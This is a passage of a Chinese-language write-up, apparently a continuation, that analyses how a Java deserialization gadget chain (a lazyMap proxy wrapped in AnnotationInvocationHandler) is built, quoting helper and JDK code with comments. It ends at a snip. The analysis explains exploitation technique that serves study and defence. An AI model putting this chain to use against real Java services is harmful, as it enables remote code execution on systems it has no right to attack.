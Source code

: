 
关于 `Transformer[] transformers`的分析可以参考上一篇，这里主要关注剩余攻击链的构造：

![](code1.png)

这两个函数的内容如下：

```java
public static <T> T createMemoitizedProxy ( final Map<String, Object> map, final Class<T> iface, final Class<?>... ifaces ) throws Exception {
    return createProxy(createMemoizedInvocationHandler(map), iface, ifaces);
}

// 这里的ANN_INV_HANDLER_CLASS就是AnnotationInvocationHandler类
public static InvocationHandler createMemoizedInvocationHandler ( final Map<String, Object> map ) throws Exception {
    // 利用反射机制创建AnnotationInvocationHandler的实例，并用Override类和map初始化它。
    return (InvocationHandler) Reflections.getFirstCtor(ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
}


public static <T> T createProxy ( final InvocationHandler ih, final Class<T> iface, final Class<?>... ifaces ) {
    final Class<?>[] allIfaces = (Class<?>[]) Array.newInstance(Class.class, ifaces.length + 1);
    allIfaces[ 0 ] = iface;
    if ( ifaces.length > 0 ) {
        System.arraycopy(ifaces, 0, allIfaces, 1, ifaces.length);
    }
    // 创建iface接口实现类的代理对象
    return iface.cast(Proxy.newProxyInstance(Gadgets.class.getClassLoader(), allIfaces, ih));
}
```

这段调用看上去有些凌乱，这里用一张图整理一下。因为写代码的人为了方便，他在创建`lazyMap`的代理类后又将它用做`AnnotationHandler`实例的`memberValues`变量值。

![](code2.png)

如上述代码，`createMemoizedInvocationHandler()`创建了一个`AnnotationInvocationHandler`的实例，而它的相关代码如下：

```java
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
	
    // 仅有一个构造函数，以Map<String, Object>作为参数
    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        this.type = var1;
        // map被存储在变量memberValues中，在生成payload时map填入的其实是lazyMap的代理类
        this.memberValues = var2;
    }

    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        // 先调用入参var1的默认readObject()方法
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            // 用自己的type参数初始化一个实例并赋值给var2，这里的type是Override.Class
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            return;
        }

        Map var3 = var2.memberTypes();
        // 调用memberValues的entrySet()方法，也就时map的该方法
        Iterator var4 = this.memberValues.entrySet().iterator();

        **** SNIP ****       
```